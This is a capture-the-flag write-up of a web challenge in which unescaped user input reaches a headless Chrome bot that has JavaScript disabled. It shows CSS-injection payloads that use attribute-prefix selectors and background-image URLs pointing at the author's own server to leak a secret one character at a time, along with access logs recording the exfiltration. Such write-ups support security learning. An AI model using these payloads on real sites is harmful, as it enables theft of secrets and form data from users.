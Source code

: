 
# Free as in Freedom

> Dr. Richard Stallman is a pioneer of free software. We all know that he
> strives to protect his digital freedom by not running any non-free software
> such as JavaScript.
>
>  Can you still write an exploit for him, even though he > doesn't use these
>  modern web technologies? You need to find Stallman's own > suggestion for the
>  website.

![Screenshot](screenshot.png)

| Asset        | Note                                                          |
|--------------|---------------------------------------------------------------|
| Author       | Milkdrop                                                      |
| Category     | Web Exploitation                                              |
| Original URL | `http://challs.xmas.htsp.ro:11003`                            |
| Attachment   | 💾 [HTML Dump][1]                                             |

## Analysis

Browsing the URL provides what appears to be the personal website of Richard
Stallman:

![Site homepage](screenshot-site.png)

It's filled with endless topics and links. However, near the bottom is a form:

![Form](screenshot-form.png)

Below the form in HTML is also:

```
<div>
  <!-- suggestions should be loaded here for Dr. Stallman to see -->
</div>
```

## Exploit

Posting anything with an `<img>` or `<style>` tag that calls home to a remote
server will show that there is a Chrome Headless browser that is checking the
website. This is their "Stallman bot" essentially:

```
/var/log/apache2/access.log:redstoneblockchain.xyz:443 1.2.3.4 - - [17/Dec/2019:11:26:34 +0000] "GET / HTTP/1.1" 200 2026 "http://127.0.0.1/?suggestion=%3Cstyle%3E%0D%0Aform+%7B%0D%0A+background-image%3A+url%28%22https%3A%2F%2Fredstoneblockchain.xyz%2Ffoot127zz%22%29%3B%0D%0A%7D%0D%0A%3C%2Fstyle%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3904.108 Safari/537.36"
```

This means there is no HTML escaping on the server. However, inserting a
`<script>` tag won't do anything because Stallman doesn't have Javascript
enabled on his 1960's PDP-100.

This means sans some kind of HTML parsing error in Chrome the only known
attack vector would be CSS rules. We have seen already that his browser will
parse the HTML and load images from our remote server we control. This means
we could style his input elements:

```
<style>
input { background-image: url("http://redstoneblockchain:9999/cool.png"); }
</style>
```

We can also set the background only for input elements that start with `x`:

```
<style>
[vaue^='x'] { background-image: url("http://redstoneblockchain.xyz:9999/x"); }
</style>
```

We can expand this method to generate a `<style>` that contains every character
as a prefix. When we get a hit on our remote server we have discovered one more
character of the secret flag:

```
[Thu Dec 19 03:39:37 2019] 1.2.3.4:51872 [200]: /X
[Thu Dec 19 03:39:50 2019] 1.2.3.4:51882 [200]: /X-MAS%7B
[Thu Dec 19 03:41:54 2019] 1.2.3.4:51914 [200]: /X-MAS%7BX
[Thu Dec 19 03:42:01 2019] 1.2.3.4:51924 [200]: /X-MAS%7BXS
[Thu Dec 19 03:42:11 2019] 1.2.3.4:51934 [200]: /X-MAS%7BXSS
[Thu Dec 19 03:42:19 2019] 1.2.3.4:51948 [200]: /X-MAS%7BXSS-
[Thu Dec 19 03:42:27 2019] 1.2.3.4:51958 [200]: /X-MAS%7BXSS--
[Thu Dec 19 03:42:31 2019] 1.2.3.4:51964 [200]: /X-MAS%7BXSS--S
[Thu Dec 19 03:42:35 2019] 1.2.3.4:51970 [200]: /X-MAS%7BXSS--St
[Thu Dec 19 03:42:50 2019] 1.2.3.4:51998 [200]: /X-MAS%7BXSS--St4
[Thu Dec 19 03:42:54 2019] 1.2.3.4:52006 [200]: /X-MAS%7BXSS--St4l
[Thu Dec 19 03:43:07 2019] 1.2.3.4:52022 [200]: /X-MAS%7BXSS--St4ll
[Thu Dec 19 03:43:10 2019] 1.2.3.4:52064 [200]: /X-MAS%7BXSS--St4llm
[Thu Dec 19 03:43:17 2019] 1.2.3.4:52076 [200]: /X-MAS%7BXSS--St4llm4
[Thu Dec 19 03:43:20 2019] 1.2.3.4:52080 [200]: /X-MAS%7BXSS--St4llm4n
[Thu Dec 19 03:43:35 2019] 1.2.3.4:52138 [200]: /X-MAS%7BXSS--St4llm4n-
[Thu Dec 19 03:43:40 2019] 1.2.3.4:52144 [200]: /X-MAS%7BXSS--St4llm4n-A
[Thu Dec 19 03:43:43 2019] 1.2.3.4:52150 [200]: /X-MAS%7BXSS--St4llm4n-Ap
[Thu Dec 19 03:43:46 2019] 1.2.3.4:52154 [200]: /X-MAS%7BXSS--St4llm4n-App
[Thu Dec 19 03:43:48 2019] 1.2.3.4:52200 [200]: /X-MAS%7BXSS--St4llm4n-Appr
[Thu Dec 19 03:43:54 2019] 1.2.3.4:52208 [200]: /X-MAS%7BXSS--St4llm4n-Appr0
[Thu Dec 19 03:43:57 2019] 1.2.3.4:52212 [200]: /X-MAS%7BXSS--St4llm4n-Appr0v
[Thu Dec 19 03:43:59 2019] 1.2.3.4:52216 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ve
[Thu Dec 19 03:44:02 2019] 1.2.3.4:52222 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved
[Thu Dec 19 03:45:51 2019] 1.2.3.4:52304 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!
[Thu Dec 19 03:49:56 2019] 1.2.3.4:52406 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!%7D
```

[1]: ./files/index.html
